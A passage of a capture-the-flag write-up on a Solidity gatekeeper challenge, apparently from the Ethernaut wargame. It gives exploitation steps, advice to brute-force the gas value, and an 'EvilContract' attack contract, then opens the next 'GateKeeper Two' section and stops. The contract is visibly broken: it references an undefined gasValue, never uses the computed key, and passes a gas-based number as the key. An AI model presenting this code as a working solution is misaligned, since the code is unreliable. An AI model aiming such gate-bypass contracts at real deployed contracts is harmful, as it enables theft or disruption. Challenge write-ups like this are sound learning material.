 -----

**Exploitation**

1. We should call the contract from our `Evil Contract` so we bypass the first gate
2. We should make sure the key adhere to the key format we found.
3. We need to pass a gas value that passes the condition.
    > However when searching for that gas value we can
        1. Calculate the gas consumed till the call of the condition check by using the debugger by summing the cost of opcodes :)
        2. Use the debugger to check the gas value at the condition check.
        3. Just don't, if you are impatient brute force it. That's what I did when I got low on caffeine and the music stopped.

![Debugging interface](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138017/18f23b5aad25da24fa6fbdc8842fb1ee0568daa3ac723a166802b0cc2dd2518d_yg3ech.png)  

So here is the final contract

```js
contract EvilContract { 
    function getKey() view public returns (bytes8){ 
        return bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF; // The first time will pass false the second true
    }
    function callAttack(address gateAddress, uint baseGasValue) public returns (bool) {
        bytes8 gateKey = getKey();
        uint i;

        for (i=0;i<300;i++)
        {
        (bool result,) =  gateAddress.call{gas:gasValue}(abi.encodeWithSignature("enter(bytes8)", baseGasValue+100+8191*4));
        if(result) return result;
        }
        return false;
    }
}
```

Happy hacking ! You may rest traveler , The next gate will be some kind of a boss fight.

Challenge solved ✅

## GateKeeper Two

> Time to delve deep in the ethereum blockchain

**Challenge description**

I will sum up we need to pass the gate and learn many things.

--------
**Analysis**

As usual here we got three modifiers to pass. We will be going through each modifer one by one from the easiest to the hardest.
